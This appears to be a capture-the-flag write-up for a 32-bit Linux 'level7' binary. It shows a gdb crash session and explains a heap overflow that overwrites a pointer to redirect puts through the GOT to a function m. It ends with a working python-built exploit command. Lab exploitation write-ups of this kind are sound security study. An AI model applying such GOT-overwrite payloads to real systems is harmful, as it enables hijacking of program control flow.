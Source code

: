 When i did this :

```
gdb) r 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjj'
Starting program: /home/user/level7/level7 'aaaabbbbccccddddeeeeffffgggghhhhiiiijjjj'

Program received signal SIGSEGV, Segmentation fault.
0xb7eb0208 in ?? () from /lib/i386-linux-gnu/libc.so.6
(gdb) i r
eax            0x66666666       1717986918
ecx            0x0      0
edx            0x66666666       1717986918
ebx            0xb7fd0ff4       -1208152076
esp            0xbffff6dc       0xbffff6dc
ebp            0xbffff708       0xbffff708
esi            0x0      0
edi            0x0      0
eip            0xb7eb0208       0xb7eb0208
eflags         0x210286 [ PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

I noticed than eip does not get overflowed but eax and edx.

This means I have 20 bytes to overflow and that the rest will be in puVar3[1].

This way, i can overwrite the adress of puVar3[1] to be the GOT address of puts and set argv[2] to be the function m that we want to call.

This way when argv[2] is copied to puVar3[1], really the address of m is copied to the address point of puts.

And when the programm call puts, it calls m instead

In the end :
```
./level7 $(python -c 'print "B"*20+"\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

because "\x28\x99\x04\x08" is the address of puts and "\xf4\x84\x04\x08" is the address of m